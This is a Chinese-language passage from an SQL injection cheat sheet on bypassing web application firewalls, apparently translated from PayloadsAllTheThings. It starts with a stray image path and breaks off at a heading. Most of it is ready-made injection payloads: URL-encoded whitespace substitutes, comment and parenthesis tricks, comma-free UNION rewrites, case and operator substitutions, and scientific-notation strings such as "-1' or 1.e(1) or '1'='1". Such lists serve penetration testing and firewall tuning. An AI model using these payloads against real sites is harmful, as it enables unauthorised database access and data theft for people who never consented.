 [初始绕过来自这里](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### 无空格绕过

无空格 (%20) - 使用空白替代品进行绕过
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```
无空格 - 使用注释绕过
```sql
?id=1/*comment*/and/**/1=1/**/--
```
无空格 - 使用括号绕过
```sql
?id=(1)and(1)=(1)--
```
### 无逗号绕过

无逗号 - 使用 OFFSET、FROM 和 JOIN 绕过
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
### 通用绕过

使用关键字的黑名单 - 使用大写/小写绕过
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```
使用关键字的黑名单不区分大小写 - 使用等效运算符绕过
```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
### 科学计数法 WAF 绕过

您可以在 [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/) 中找到对此技巧的更深入解释。\
基本上，您可以以意想不到的方式使用科学计数法来绕过 WAF：
```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```
### 绕过列名限制
